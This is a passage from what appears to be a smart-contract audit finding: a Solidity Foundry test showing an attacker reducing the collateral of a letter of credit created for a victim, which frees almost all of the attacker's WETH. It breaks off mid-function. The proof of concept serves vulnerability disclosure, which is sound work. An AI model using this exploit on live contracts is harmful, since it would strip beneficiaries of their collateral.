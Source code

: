 Test code to show: https://gist.github.com/Perseverancesuccess2021/831d502296049011991a7af9afe31abc#file-testletterofcredit-sol

\`\`\`solidity function testModifyLOCCollateral() public {\
setup\_precondition();

```
    CollateralVault.CollateralBalance  memory balance &#x3D; CollateralVault(CollateralVault_contract).getAccountCollateralBalance(attacker, WETH); 
    assertEq(balance.available, 10**18);
    assertEq(balance.reserved, 0);

    uint96 loc_id &#x3D; createDynamicLOC(); 
    console.log(&quot;Loc id&quot;); 
    console.log(loc_id); 
    balance &#x3D; CollateralVault(CollateralVault_contract).getAccountCollateralBalance(attacker, WETH); 
    assertEq(balance.available, 0);
    assertEq(balance.reserved, 10**18);
    

    LetterOfCredit.LOC memory _loc &#x3D; LetterOfCredit(LetterOfCredit_proxy).getLOC(loc_id);
    console.log(&quot;LOC Details: collateralTokenAddress &quot;, _loc.collateralTokenAddress);
    console.log(&quot;LOC Details: collateralTokenAmount &quot;, _loc.collateralTokenAmount);
    console.log(&quot;LOC Details: creditedTokenAddress &quot;, _loc.creditedTokenAddress);
    console.log(&quot;LOC Details: creditedTokenAmount &quot;, _loc.creditedTokenAmount);

    bytes memory _oraclePriceUpdate &#x3D;  &quot;&quot;;
    bytes memory signature_  &#x3D; &quot;&quot;; 
          
    int256 amount_1 &#x3D; int256(_loc.collateralTokenAmount - 2) * (-1); 


    console.log(&quot;Attacker to modify the collateral of the LOC&quot;);
    vm.startPrank(attacker);
    LetterOfCredit(LetterOfCredit_proxy).modifyLOCCollateral(loc_id, amount_1,_oraclePriceUpdate , signature_ ); 
    vm.stopPrank();

    _loc &#x3D; LetterOfCredit(LetterOfCredit_proxy).getLOC(loc_id);
    console.log(&quot;After attack: LOC Details: collateralTokenAddress &quot;, _loc.collateralTokenAddress);
    console.log(&quot;After attack:  LOC Details: collateralTokenAmount &quot;, _loc.collateralTokenAmount);
    console.log(&quot;After attack:  LOC Details: creditedTokenAddress &quot;, _loc.creditedTokenAddress);
    console.log(&quot;After attack:  LOC Details: creditedTokenAmount &quot;, _loc.creditedTokenAmount);
    balance &#x3D; CollateralVault(CollateralVault_contract).getAccountCollateralBalance(attacker, WETH);
    
    assertEq(balance.available, 999999999999999998);
    assertEq(balance.reserved, 2);
    console.log(&quot;After attack: Balance of WETH for attacker: available&quot;, balance.available); 
    console.log(&quot;After attack: Reserved of WETH for attacker: reserved &quot;, balance.reserved);


}    

function createDynamicLOC() public  returns (uint96 loc_id) {

    console.log(&quot;Attacker to create a dynamic LOC for victim&quot;); 
    address _beneficiary &#x3D; user;                 
```